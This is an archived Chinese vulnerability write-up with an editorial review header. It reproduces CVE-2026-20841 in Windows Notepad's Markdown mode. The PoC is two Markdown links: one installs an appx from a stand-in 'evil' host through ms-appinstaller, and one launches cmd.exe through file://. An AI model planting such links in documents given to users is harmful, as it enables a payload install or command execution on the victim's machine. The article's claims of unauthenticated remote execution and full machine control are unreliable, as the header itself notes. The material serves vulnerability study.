






# 复现Windows记事本最新漏洞-CVE-2026-20841

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Windows Notepad Markdown链接处理
- 文献类型：截图复现教程
- 版本、权限及部署边界：支持Markdown的新版Notepad；格式化文档后Ctrl+点击链接；应用版本写11.0.0 *<11.2510不完整
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 描述为无授权网络远程命令执行，却PoC明确需要用户创建/打开Markdown再点击，应突出交互
2. 两个样例分别调用安装协议和启动本地cmd.exe，不直接证明任意参数命令注入或自动安装成功，协议处理器与确认提示条件缺失
3. 受影响边界格式损坏且版本号不完整，缺修复版本/MSRC链接
4. 完全控制机器夸大为未证实提权；独立截图实验需补实际应用包版本与响应文字

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://evil/xxx.appx>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

原创 喜欢挖洞吗
                    喜欢挖洞吗  喜欢挖洞吗   2026-02-12 01:06  
  
# 免责声明  
1. 1. 本公众号发布的网络安全工具、POC 脚本、技术文章等内容，仅面向具备合法授权的网络安全从业人员、技术爱好者用于**合法合规的渗透测试、安全研究、漏洞验证**  
及技术学习交流，严禁用于任何未经授权的非法攻击、入侵他人网络或信息系统的行为。  
  
1. 2. 任何单位或个人在使用本公众号内容前，必须确保已获得目标系统的合法授权，并严格遵守《网络安全法》《数据安全法》《个人信息保护法》等国家相关法律法规及行业规范，独立承担因违规使用所产生的全部法律责任、经济损失及一切后果，与本公众号及作者无关。  
  
1. 3. 本公众号发布的内容仅为技术研究与分享，不构成任何攻击指导、非法用途的暗示或诱导。所有工具及 POC 的安全性、稳定性未经全面验证，仅供学习参考，使用者需自行评估风险并承担使用后果，本公众号及作者不承担任何因工具使用不当、漏洞利用失误导致的直接或间接损失。  
  
1. 4. 本公众号尊重并保护各类知识产权，发布的内容若涉及第三方技术、工具或资料，均已注明来源或基于合法授权。若存在侵权行为，请及时联系作者删除，任何未经授权的转载、篡改、传播本公众号内容的行为，需自行承担相应法律责任。  
  
1. 5. 凡浏览、关注本公众号或使用本公众号内容者，即视为已充分理解并同意本免责声明全部条款。若您不同意本声明，请勿使用本公众号任何内容。  
  
# 漏洞描述  
  
CVE-2026-20841 是 Microsoft 开发的 Windows 记事本应用程序中发现的一个命令注入漏洞。该漏洞源于命令输入中特殊字符的处理不当，导致未经授权的攻击者能够通过网络远程执行任意命令。这对依赖记事本应用进行快速文本编辑或脚本的组织构成重大风险，因为成功利用该漏洞可能使攻击者获得未经授权的敏感系统访问并实施恶意行为。潜在后果不仅包括系统被攻破，还包括通过代码执行在受影响机器上传播的进一步攻击风险。  
# 漏洞影响  
  
**远程代码执行**  
 ：利用该漏洞使攻击者能够在受影响的系统上执行任意代码，可能导致对机器的完全控制、数据盗窃和恶意软件的安装。  
  
**数据泄露**  
 ：攻击者能够在受害者的机器上执行命令，可能访问、篡改或泄露敏感数据，导致严重的数据泄露，影响组织的完整性和可信度。  
  
**攻击面增加**  
 ：该漏洞出现在像 Notepad 这样广泛使用的应用中，显著增加了组织的攻击面，使其更容易受到网络犯罪组织的协调勒索软件攻击及其他利用尝试的攻击。  
# 受影响的版本  
  
Windows Notepad **11.0.0**  
*< **11.2510**  
# 复现过程  
  
1.复现环境  
  
  
  
2.文件-新建"MarkDown"选项卡  
  
  
  
2.在新建的MarkDown选项卡中输入  
```
# install file
[poc](ms-appinstaller://?source=https://evil/xxx.appx)

#run executable file
[poc](file://C:/windows/system32/cmd.exe)
```  
  
3.点击MarkDown语法按钮会变成已编排的格式，其实就是格式化一下内容。  
  
  
  
  
  
4.使用Crtl+左键点击poc,第一个poc是安装软件，第二个是执行命令。  
  
  
  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
